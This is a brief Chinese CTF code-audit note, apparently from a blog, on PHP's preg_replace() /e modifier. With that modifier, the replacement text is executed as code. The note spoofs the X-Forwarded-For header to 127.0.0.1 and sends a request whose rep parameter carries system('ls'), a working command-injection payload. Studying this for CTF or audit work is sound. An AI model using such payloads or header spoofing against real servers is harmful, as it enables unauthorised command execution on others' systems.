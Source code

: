 ## preg_replace():

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/代码审计/危险函数/images/D4D6814D9CC04692B9B2283CA267BF70clipboard.png)



原理：preg_replce正则表达式部分包含e参数的时候，进行替换的部分会被当做代码执行。



preg_replace 函数的用法



使用burpsuite抓包，将X_FORWARDED_FOR设置为127.0.0.1，并且将url设置为 

/index.php?pat=/(.*)/e&rep=system('ls')&sub=a 

查看文件列表



